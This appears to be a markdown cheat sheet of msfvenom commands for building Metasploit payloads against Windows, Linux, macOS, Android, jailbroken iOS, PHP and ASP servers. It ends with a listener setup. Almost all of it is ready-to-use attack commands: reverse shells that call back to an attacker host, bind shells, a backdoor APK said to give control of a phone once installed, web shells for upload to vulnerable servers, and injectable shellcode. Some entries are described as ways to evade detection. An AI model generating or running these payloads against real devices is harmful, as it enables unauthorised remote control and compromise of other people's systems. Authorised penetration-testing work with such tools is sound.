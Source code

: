**msfvenom** payloads to gain access to different types of devices, here are some categorized options based on the target system.

---

# **1. Windows Payloads**
### **Reverse Meterpreter (Most Common)**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=4444 -f exe > shell.exe
```
- Connects back to the attacker's machine.
- Requires a listener (`multi/handler` in Metasploit).

### **Reverse HTTPS (Bypasses Firewalls)**
```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=<your_IP> LPORT=443 -f exe > shell_https.exe
```
- Uses HTTPS to evade detection.

### **Bind Shell (Attacker Connects to Target)**
```bash
msfvenom -p windows/shell/bind_tcp RHOST=<target_IP> LPORT=4444 -f exe > bind_shell.exe
```
- Instead of calling back, it opens a port for the attacker to connect.

### **Powershell Payload (Fileless Exploitation)**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=4444 -f psh-cmd
```
- Executes via PowerShell without writing to disk.

---

# **2. Linux Payloads**
### **Reverse TCP Shell**
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=4444 -f elf > shell.elf
```
- Works on 32-bit Linux.

### **Bind Shell**
```bash
msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f elf > bind.elf
```
- Opens a listening port.

### **Staged Payload for Persistence**
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=4444 -f elf > meterpreter.elf
```

---

# **3. macOS Payloads**
### **Reverse Meterpreter**
```bash
msfvenom -p osx/x64/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=4444 -f macho > shell.macho
```
- Works on macOS.

### **Python Reverse Shell (Cross-platform)**
```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=4444 -f raw > shell.py
```
- Can run on Windows, Linux, or macOS.

---

# **4. Android Payloads**
### **Reverse Meterpreter APK**
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=4444 -o backdoor.apk
```
- Generates a malicious APK file.
- Once installed, gives control over the device.

### **Java Payload for Android**
```bash
msfvenom -p java/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=4444 -f jar > shell.jar
```
- Works if the device runs Java.

---

# **5. iOS (iPhone) Payloads**
### **iOS Reverse Meterpreter (Jailbroken Only)**
```bash
msfvenom -p apple_ios/aarch64/meterpreter_reverse_tcp LHOST=<your_IP> LPORT=4444 -f macho > ios_payload.macho
```
- Requires a jailbroken iPhone.

---

# **6. Web Payloads**
### **PHP Reverse Shell**
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=4444 -f raw > shell.php
```
- Upload to a vulnerable web server.

### **ASP Reverse Shell (For Windows IIS Servers)**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=4444 -f asp > shell.asp
```

---

# **7. Shellcode for Injection**
### **Windows Shellcode**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=4444 -f c
```
- Can be injected into exploits.

### **Linux Shellcode**
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=4444 -f c
```

---

# **How to Set Up Listener**
After generating the payload, open Metasploit and set up a listener:
```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your_IP>
set LPORT 4444
exploit
```
